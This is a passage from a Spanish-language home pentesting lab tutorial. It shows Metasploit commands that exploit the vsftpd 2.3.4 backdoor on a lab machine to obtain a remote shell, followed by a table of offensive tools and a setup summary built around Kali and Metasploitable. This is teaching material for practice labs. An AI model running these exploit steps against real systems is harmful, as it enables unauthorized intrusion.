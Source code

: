 
##### 3. Explotar con Metasploit:

```bash
msfconsole
```

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.100
run
```

Si todo va bien, obtendrás una shell en la máquina remota:

```bash
id
uname -a
```

---

### 🧪 BONUS: Herramientas útiles para el laboratorio

| Herramienta      | Función                      |
| ---------------- | ---------------------------- |
| **Burp Suite**   | Interceptar tráfico web      |
| **Wireshark**    | Análisis de red              |
| **Nmap**         | Escaneo de puertos           |
| **Metasploit**   | Framework de explotación     |
| **BloodHound**   | Análisis de AD               |
| **Responder**    | Envenenamiento LLMNR/NBT-NS  |
| **CrackMapExec** | Enumeración de redes Windows |

---

### ✅ Resumen final

| Paso | Acción                                                              |
| ---- | ------------------------------------------------------------------- |
| 1    | Instalar VirtualBox y extensiones                                   |
| 2    | Descargar Kali Linux como atacante                                  |
| 3    | Descargar máquinas vulnerables (Metasploitable, DVWA, Windows)      |
| 4    | Configurar red interna o en puente                                  |
| 5    | Probar conectividad                                                 |
| 6    | Hacer pruebas reales (reconocimiento, explotación, postexplotación) |

---